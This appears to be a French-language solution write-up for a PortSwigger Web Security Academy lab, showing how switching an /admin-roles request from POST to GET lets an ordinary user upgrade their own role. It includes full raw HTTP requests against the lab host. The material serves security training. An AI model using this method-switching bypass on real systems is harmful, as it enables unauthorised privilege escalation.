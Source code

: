 # Lab

https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented

## Solution

Le lab nous permet de nous connecter avec le compte administrateur pour nous familiariser avec le panel d'admin.

Sur ce panel on peut upgrade les roles des utilisateurs via cette requête:

```http
POST /admin-roles HTTP/2
Host: 0a8000d403ddc67282791f94009e0098.web-security-academy.net
Cookie: session=S5WSOrRRBMxvn3Qed7K7wxhgdc8E03cD
Content-Length: 30
Origin: https://0a8000d403ddc67282791f94009e0098.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a8000d403ddc67282791f94009e0098.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

Ici ça fonctionne puisqu'on est connecté avec le compte admin.

Si on se déconnecte et qu'on essaie de faire la même requête avec le compte `wiener` on a l'erreur `Access denied`.

En revanche, si on change la méthode HTTP de `POST` à `GET` on a accès à la fonctionnalité d'upgrade des rôles.

```http
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a8000d403ddc67282791f94009e0098.web-security-academy.net
Cookie: session=Og0ZQzO1GC1NwOpxqsTSupvYtQiqbfz6
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://0a8000d403ddc67282791f94009e0098.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a8000d403ddc67282791f94009e0098.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```